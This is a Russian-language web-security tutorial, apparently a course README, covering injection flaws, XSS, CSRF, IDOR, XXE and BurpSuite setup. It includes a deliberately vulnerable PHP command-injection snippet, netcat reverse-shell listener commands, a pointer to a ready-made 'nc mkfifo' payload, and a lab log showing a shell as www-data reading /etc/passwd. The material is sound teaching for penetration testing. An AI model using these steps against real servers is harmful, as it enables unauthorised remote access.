

# Web Application Security Analysis (WASA)
Анализ защищенности веб-приложений — это комплексный процесс технического обследования, направленный на выявление уязвимостей, логических ошибок и слабых мест в безопасности веб-ресурсов (сайтов, API). Он включает автоматизированное сканирование и ручное тестирование, имитирующие действия злоумышленников для предотвращения утечек данных, несанкционированного доступа и взлома.

## 1 Серверные уязвимости
Серверные уязвимости используются для компрометации серверов и они гораздо опаснее, чем клиентские уязвимости.
Пример серверных веб-уязвимостей:
1. OS Command Injection
2. PHP Code Injection
3. SQL Injection
4. XXE (XML External Entity)
5. SSTI (Server Side Template Injection)
### 1.1 OS Command Injection
Уязвимость, которая позволяет злоумышленнику выполнять произвольный код на уязвимом сервере и может привести к полной компрометации сервера. **В наше время встречается редко**.
### 1.2 PHP Code Injection
В PHP Code Injection злоумышленник внедряет PHP-код в уязвимое веб-приложение. Тоже **встречается крайне редко** и ведёт к полной компрометации сервера.
### 1.3 SQL Injection
Уязвимость, которая позволяет изменить первоначальный SQL-запрос. С ее помощью можно получить доступ к конфиденциальной информации, так как злоумышленник может отправлять произвольные запросы к базам данных. **Встречается умеренно**.
### 1.4 XML External Entity (XXE)
`XML` - это формат данных, который используется в HTTP-запросах наравне с JSON и данными в чистом виде. Уязвимость `XXE` встречается на веб-сервисах, где есть XML-парсеры. Может привести к полной компрометации сервера.
### 1.5 Server Side Template Injection (SSTI)
`SSTI` - внедрение шаблонов на стороне сервера. Опасная уязвимость, которая может встретиться везде, где используются `шаблонизаторы` (Template) - как правило в Python/PHP проектах. Также может привести к полной компрометации сервера.

## 2 Клиентские уязвимости
Как правило клиентские уязвимости используются для мошеннических действий по отношению к пользователям/клиентам.
Пример клиентских веб-уязвимостей:
1. HTML Injection
2. XSS(Cross-Site Scripting)
3. CSRF(Cross-Site Request Forgery)

### 2.1 HTML Injection
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection

`HTML`- язык гипертекстовой разметки страницы. Не является языком программирования. Уязвимость, которая позволяет злоумышленнику внедрить HTML-код в уязвимую страницу. 

У неё есть 2 вида: 
* отражённые (reflected);
* хранимые (stored). 

Самые опасные из них `хранимые`, так как они позволяют записать вредоносный HTML-код в базу данных веб-сайта или любое другое хранилище. 

Если же HTML-инъекция `отражённая`, то она эксплуатируется через URL и используется для фишинга. 

Данная уязвимость может привести к краже конфиденциальных данных и денежных ресурсов пользователей.

### 2.2 XSS (Cross-Site Scripting)
Данная уязвимость схожа с HTML Injection, но
гораздо опаснее, потому что внедряется код на языке программирования `JavaScript`. Если злоумышленнику удастся заэксплуатировать `XSS`, то он сможет выполнять любые действия пользователя в рамках веб-сайта и видеть всё то, что видит пользователь, записывать нажатия клавиш жертвы. 

`XSS` включает в себя 3 вида:
* отражённые (reflected); 
* хранимые (stored);
* DOM-based. 

Первые два работают по аналогии с HTML Injection, а `DOM-based` - это `XSS`, при которой веб-сайт не возвращает полезную нагрузку в ответе. То есть эксплутация происходит только на стороне клиента. **XSS встречается крайне часто**.

### 2.3 CSRF (Cross-Site Request Forgery)
`CSRF` - это межсайтовая подделка запросов. Через данную уязвимость злоумышленник может вынудить пользователей совершить действие на веб-сайте без их согласия, например, удалить свой же аккаунт, перевести деньги и так далее.
**Встречается достаточно часто**.

## 3 Мисконфиги (Misconfiguration)
`Мисконфиги` - это уязвимости, возникающие вследствие ошибок в настройках безопасности приложений. Практически всегда являются человеческой ошибкой - администратор веб-сервера мог установить какой-то софт и забыть сменить стандартные данные входа. В таком случае злоумышленнику не составит труда найти эти данные в интернете и авторизоваться, например, с правами админа.

Веб-сервера apache2 настроен так, что автоматически запускается вместе с операционной системой. Проверить работоспособность веб-сервера можно через следующую команду в терминале:
```
$ sudo systemctl status apache2
```
Запустите веб-сервер с помощью команды:
```
$ sudo systemctl start apache2
```
Установим листенер (слушатель обратного подключения) через команду `nc` (`netcat`) с портом 1234, который изначально указан в `php-reverse-shell.php`:
```
$ nc-nlvp 1234
```
* `-l` используется, чтобы сообщить netcat, что это будет прослушиватель.
* `-v` используется для запроса подробного вывода.
* `-n` указывает netcat не разрешать имена хостов и не использовать DNS.
* `-p` указывает, что последует спецификация порта.

Загрузив реверс reverse-shell на сервер и запустив его на сервере мы получим доступ к серверу из хоста клиента. 

## 4 Обход авторизации (Authentication Bypass)
`Обход авторизации` - это несанкционированный доступ к различным ресурсам веб-сервера. То есть непривилегированный пользователь может получить доступ к контенту, который изначально не был предназначен для него. 

## 5 IDOR
`IDOR` (Insecure Direct Object References "Небезопасная прямая ссылка на объект").

Как правило у каждого веб-приложения есть свои `объекты` (которые реализовываются через сущности). И пользователи могут обращаться к этим объектам. Предположим, что есть веб-сайт и на нём реализована служба поддержки. Пользователь переходит на страницу, где можно открыть обращение в тех. поддержку. Он описывает в веб-форме свою проблему и нажимает кнопку отправить. На бэкэнде записывается его обращение и отправляется в базу данных:
* http://example.com/problem/1
* http://example.com/problem/2
* http://example.com/problem/N
* http://example.com/problem.php?id=1
* http://example.com/problem.php?id=2
* http://example.com/problem.php?id=N

Когда Вы открываете обращение, то скорее всего Вам вернётся ссылка, например, `http://example.com/problem/29312`. А что, если попробовать перейти не на `http://example.com/problem/29312`, а на `http://example.com/problem/29311`? Можно попробовать перейти на
`http://example.com/problem/29311`, и если у Вас это получилось, то поздравляем, Вы
обнаружили `IDOR`. Очевидно, что пользователи не должны видеть обращения других
пользователей.

### 5.1 Защита от IDOR
1. Создавать случайные идентификаторы. Например, какие-нибудь `идентификационные хэши`, то получить доступ к чужим обращениям без прямых ссылок было бы крайне сложно.
2. Использовать различные методы идентификации, например, `JWT-токены` (Json Web Token — ключ аутентификации пользователя). В таком случае на сервере могла бы быть проверка на то, действительно ли принадлежит токен с определённым ID пользователю, который обращается по ссылке. Если не принадлежит, то и доступа нет.
3. Должна присутствовать `фильтрация ввода` пользователей. 

## 6 CMD Injection
CMD Injection (OS Command Injection) - уязвимость, которая позволяет внедрить команды операционной системы с помощью вредоносного запроса. Злоумышленник найдёт и получит удалённый доступ - RCE (Remote Code Execution).

### Разбор HTML-кода

* Тег `<form>` предназначен для создания формы, как правило в него помещают другие теги.
* Тег `<input>` - это сама форма ввода. Используется атрибут name со значением `target`. Это значит, что мы можем получить значение из тега в PHP через массив `$_POST[‘target’]` после отправки формы.
* Тег `<button>` предназначен для создания кнопки при нажатии на которую происходит отправка данных из формы.

### Разбор PHP-кода
```php
<?php
if (isset($_POST['submit'])) {
    $target = $_POST['target'];
    echo "<h3>Результат:</h3>";
    echo "<pre>";
    system("whois $target");
    echo "</pre>";
}
?>
```
Используется условная конструкция `if` вместе с функцией `isset()`, которая проверяет наличие данных в массиве `$_POST['submit']`. То есть, когда мы нажимаем кнопку, то значение `submit` отправляется в `$_POST['submit']`, следовательно, функция `isset()` возвращает положительный результат. А значение из `input` отправляется в `$_POST['target']`, поскольку тег имеет атрибут name равным `target`.

В данной строке кода мы присваиваем значение из массива `$_POST['target']` переменной `target`:
```
$target = $_POST['target'];
```
Функция `system` выполняет код операционной системы:
```
whois наша_цель
```
Давайте подумаем, как мы можем это проэксплуатировать, тем самым скомпрометировав сервер. У нас есть шаблон:
```
whois $target
```
Очевидно, что нужно внедрять команды через переменную target. 

В Linux Вы можете запускать сразу несколько команд по очереди через точку с запятой - `;`, а также символы `&&` (И) и `||` (ИЛИ).

Например, `whoami` вместе с `pwd`:
```
$ whoami; pwd
student
/home/student
```

Воспользуемся сервисом `https://www.revshells.com/`. С его помощью нам не нужно писать свой `пэйлоад` - он сделает всё за нас. Достаточно указать наш IP-адрес и порт.

Выбираем вкладку `"nc mkfifo"` и готовый `пэйлоад` - `rm /tmp...` . Чтобы получить обратную оболочку, нам нужно поставить листенер `nc`.

Листенер запущен, теперь копируем `пэйлоад` -  `rm /tmp...` и вставляем его в форму на сайте...

В литсенере мы получили удалённый доступ от лица веб-сервера (www-data):
```
$ nc-nlvp 9898
listening on [any] 9898 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45500
sh: 0: can't access tty; job control turned off
$ whoami; id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/student/
ls: cannot open directory '/home/student/': Permission denied
$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## 7 PHP Code Injection
В `CMD Injection` происходит выполнение кода операционной системы. В `PHP Code Injection` происходит выполнение именно PHP-кода.

Функция `system()` выполняет код операционной системы, а `eval()` выполняет PHP-код.

### Защита
Достаточно просто не использовать опасные функции вместе с пользовательским вводом. Вам необходимо тщательно фильтровать то, что вводит пользователь (точно ли пользователь ввёл домен или IP-адрес, точно ли ввёл цифру или арифметический знак), например, использовать белые списки и регулярные выражения.

Список наиболее опасных PHP-функций для операционной системы:
* exec
* system
* shell_exec
* proc_open
* passthru
* expect_popen
* pcntl_exec

Список наиболее опасных PHP-функций для PHP-кода:
* eval
* create_function
* include
* include_once
* require
* require_once

## 8 XXE (External Entity XML "внедрение внешних сущностей XML")
Одна из самых опасных уязвимостей, которая позволяет злоумышленнику внедрять вредоносный код в запрос, содержащий в себе XML. 

### XML (eXtensible Markup Language)
Расширяемый язык разметки, который очень похож на `HTML`, но у них есть кардинальные различия. У языка разметки `HTML` есть фиксированный набор ключевых слов, у `XML` нет ограничения на семантику и свободой выбора имен для тегов. 

XML удобен для создания и обработки документов как программами, ориентированными на web-разработку, так и человеком.

### BurpSuite
`BurpSuite`- это инструмент для тестирования безопасности веб-приложений, разработанный компанией PortSwigger. Он предоставляет набор функций, которые помогают исследователям безопасности и разработчикам обнаруживать уязвимости веб-приложений и выполнять тестирование на проникновение.

`BurpSuite` состоит из множества встроенных модулей (можно расширить за счёт собственных модулей):
1. `Proxy` (Прокси): Позволяет перехватывать и изменять запросы и ответы между клиентом и сервером. Это позволяет анализировать и модифицировать трафик, отправляемый между браузером и веб-приложением.
2. `Intruder` (Проникновение): Используется для автоматизации атак на веб-приложения. Позволяет настраивать и запускать различные виды атак, например, словарные атаки, перебор параметров и другие.
3. `Repeater` (Повторитель): Позволяет повторять запросы к веб-приложению с возможностью изменения параметров для тестирования различных сценариев и проверки уязвимостей.
4. `Sequencer` (Последователь): Используется для анализа случайности генерации токенов или сессий в веб-приложении.
5. `Decoder` (Декодер): Позволяет выполнять декодирование и кодирование различных форматов данных, таких как URL-кодирование, Base64, шестнадцатеричное кодирование и другие.

### Прокси
Настроим прокси (посредник между клиентом и сервером) для того, чтобы перехватывать HTTP-запросы через `BurpSuite`. Откроем браузер и нажмём на кнопку `Application menu`, а затем `Add-ons and themes`:


В качестве прокси использовать плагин браузера Firefox под названием - `FoxyProxy` (FoxyProxy Standard). Нажимаем на значок лисы, а затем на кнопку `Options`, на кнопку `Add` -  нужно прописать адрес прокси сервера, которым будет являться `BurpSuite`:
1. Указываем заголовок. По нему мы можно ориентироваться, когда мы включаем прокси.
2. Указываем протокол HTTP.
3. Указываем IP-адрес прокси (127.0.0.1).
4. Указываем стандартный порт BurpSuite 8080.
5. Имя пользователя (Username) и пароль (Password) указывать не нужно.
6. Нажимаем кнопку `Save`.

Прокси работает только с HTTP-протоколом, чтобы он работал ещё с `HTTPS` нам нужно установить сертификат `PortSwigger`:
1. Запускаем `BurpSuite`
2. В `FoxyProxy` выберем `BurpSuite`
3. Перейдём по ссылке http://burp
4. И нажмём на кнопку `CA Certificate` (скачали)
5. Нажимаем на кнопку открытия меню в браузере и выбираем `Settings`
6. Переходим в `Privacy & Security`
7. Нажимаем кнопку `View Certificates…`
8. Нажимаем `Import…` и выбираем сертификат `PortSwigger` под названием `cancert.der`
9. Нажимаем на чекбокс `Trust this CA to identify websites` и кнопку `OK`
10. Сертификат установлен и мы можем перехватывать HTTPS-запросы

Перехватим запрос с помощью `BurpSuite`, чтобы это сделать нам нужно нажать на иконку плагина `FoxyProxy` в браузере И выберем `BurpSuite`.

Теперь переходим в сам инструмент и нажимаем кнопку `Intercept is off`. Введя запрос на сайте будет зависание так как инструмент перехватил запрос и ожидает действий от пользователя - отправить (`Forward`), изменить или сбросить (`Drop`) запрос (кнопки располагаются во вкладке перехваченного запроса - `Proxy->Intercept`).

Попробуем внедрить полезную нагрузку через XML, которая позволит определить имеет ли веб-приложение уязвимость XXE и внедрить внешнюю сущность `xxe` в элемент name:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe 'XXE Payload Works!'>]>
<root>
    <name>&xxe;</name>
    <password>test</password>
</root>
```
И нажать на кнопку `Forward`, чтобы отправить HTTP-запрос:
